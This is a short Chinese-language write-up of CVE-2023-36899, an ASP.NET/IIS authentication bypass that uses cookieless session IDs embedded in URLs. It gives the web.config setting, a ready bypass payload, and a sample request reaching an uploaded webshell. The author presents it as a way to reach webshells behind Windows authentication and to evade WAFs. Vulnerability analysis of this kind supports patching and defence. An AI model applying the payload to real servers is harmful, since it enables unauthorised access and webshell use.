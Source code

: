 

# CVE-2023-36899.NET 身份绕过 IIS 认证

默认情况下.NET 会话产生的 SessionID 一般位于 HTTP 报文请求或者响应的 Cookie 字段，
命名方式如下
`Cookie:ASP.NET_SessionId=uxfzmc552rdiwh45ja2t3vud;`

如果不想用上述的 Cookie 存储方式也可以改成 Cookie 不带 SessionID 这样的会话，只需要在 web.config 配置<SessionState>节点属性 cookieless 属性为 true，这样.NET 将会话 ID 随着 HTTP 请求附加到 URL 地址上。配置清单如下
```xml
<system.web>
<sessionState cookieless="true"/>
</system.web>
```
这样配置后 Cookie 作为 URL 地址的一部分，会话 SessionID 值都以明文的形式发送显然
是不安全的。如下图
但是在早期基于.NET Framwork 版本的应用中大量存在这样的场景，然而这种特性也会存
在绕过 IIS 身份验证的风险。以下通过实验演示绕过 IIS 身份验证的漏洞场景。
在 IIS 项目中 Windows 身份验证是一种强大且广泛使用的身份验证方法，需要匿名访问的
用户输入正确的 Windows 本地帐户登录后才能访问该 Web 应用。配置 Windows 身份验证
步骤如下：
1. 启用 Windows 身份验证安全功能
2. 打开 IIS10 选择 Uploads 目录后进入身份验证模块，启用 Windows 身份验证
配置完成后访问 /(S(mwdwx5uhl2yqliv2w45c5cla))/uploads/dynamicCompilerSpy.aspx
弹出授权登录对话框如下图
遇到这种需要本地 Windows 账户登录才能访问，一般攻击在打点时遇到这样 WebShell 上
传后的场景还是比较常见的，以前可能就放弃或者找其他的解决办法，现在可以用 URL 会
话 ID 的方式绕过，
3. 常用的 Bypass Payload 如下
`(S(mwdwx5uhl2yqliv2w45c5cla))/up/(S(mwdwx5uhl2yqliv2w45c5cla))loads/  
`

输入两次会话 ID，并且拆解了 uploads 目录，这对绕过 WAF 等安全防护也是有用的。请求
`http://192.168.101.77/(S(mwdwx5uhl2yqliv2w45c5cla))/up/(S(mwdwx5uhl2yqliv2w45c5cla))loads/dynamicCompilerSpy.aspx` 
后成功绕过 Windows 身份认证